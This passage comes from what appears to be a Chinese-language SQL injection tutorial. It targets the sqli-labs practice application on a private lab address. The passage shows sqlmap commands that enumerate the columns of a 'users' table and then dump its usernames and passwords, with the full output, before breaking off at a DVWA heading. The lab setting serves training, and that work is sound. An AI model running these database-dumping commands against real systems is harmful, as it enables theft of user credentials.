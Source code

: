 爆字段

```
┌──(root㉿kali)-[~]
└─# sqlmap -u "http://192.168.1.76/sqli-labs/Less-1/?id=1" --level 5 --risk 2 -f -b --random-agent -D "security" -T "users" --columns
```

```
Database: security   
Table: users
[3 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| id       | int(3)      |
| password | varchar(20) |
| username | varchar(20) |
+----------+-------------+
```

拖库

```
┌──(root㉿kali)-[~]
└─# sqlmap -u "http://192.168.1.76/sqli-labs/Less-1/?id=1" --level 5 --risk 2 -f -b --random-agent -D "security" -T "users" -C "username,password" --dump
```

```
Database: security
Table: users
[13 entries]
+----------+------------+
| username | password   |
+----------+------------+
| admin    | admin      |
| admin1   | admin1     |
| admin2   | admin2     |
| admin3   | admin3     |
| admin4   | admin4     |
| secure   | crappy     |
| Dumb     | Dumb       |
| dhakkan  | dumbo      |
| superman | genious    |
| Angelina | I-kill-you |
| batman   | mob!le     |
| Dummy    | p@ssword   |
| stupid   | stupidity  |
+----------+------------+
```

### 2.7. 进阶注入

**DVWA**
